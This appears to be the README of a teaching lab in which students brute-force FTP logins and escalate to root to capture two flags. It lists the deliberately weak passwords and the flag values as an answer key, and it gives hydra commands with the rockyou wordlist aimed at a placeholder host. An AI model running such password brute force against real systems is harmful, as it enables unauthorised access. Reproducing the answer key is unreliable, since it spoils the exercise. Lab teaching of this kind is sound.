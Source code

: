 # FTP and Brute Force Lab

This lab allows students to apply brute force and privilege escalation techniques in a realistic environment. The goal is to access an FTP server with insecure configuration and retrieve two hidden flags in the system. This way, students will understand:

- How an FTP server works and anonymous access.
- Using password brute force with the `hydra` tool.
- Reading hidden clues in files accessible via FTP.
- Connecting as a discovered user using a dictionary.
- Escalating privileges on a Linux system to access as `root`.

## Machine Specifications

- **Operating System**: Ubuntu Server (no graphical interface)
- **Active Service**: `vsftpd` on port 21
- **Anonymous Access** enabled: `/home/ftp/anonymous/IMPORTANT`
- **Vulnerable Users**:
    - `james` → password: `superman`
    - `caroline` → password: `babygirl`
- **Privileges**:
    - `caroline` belongs to the `sudo` group
- **Challenge Flags**:
    - `/home/james/flag.txt`:  
        `4GEEKS{C0ngr4tul4t10ns_4_UR_F1R5T_FL4G!!!}`
    - `/root/flag.txt`:  
        `4GEEKS{C4R0L1N3_N33D5_A_B3TT3R_P455W0RD!!!}`


### Machine Credentials

```bash
servername: ftp-lab
username: student
password: 4geeks-lab
```

## Expected steps for students

1. **Connect as an anonymous user via FTP**:

     ```bash
     ftp <IP_VM>
     ```

2. **Read the instructions.txt file in `/IMPORTANT`**: The file suggests that users james and caroline need to change their passwords.

3. **Perform brute force with hydra and `rockyou.txt`**:

     ```bash
     hydra -l james -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
     hydra -l caroline -P /usr/share/wordlists/rockyou.txt ftp://<IP_VM>
     ```

4. **Connect as james via FTP and retrieve the first flag**:

     ```bash
     ftp <IP_VM>
     # login: james
     # password: superman
     ```

     ```bash
     get flag.txt
     ```

5. **Connect as caroline (via SSH or FTP)**

6. **Escalate privileges to read the second flag**:

     ```bash
     sudo cat /root/flag.txt
     ```
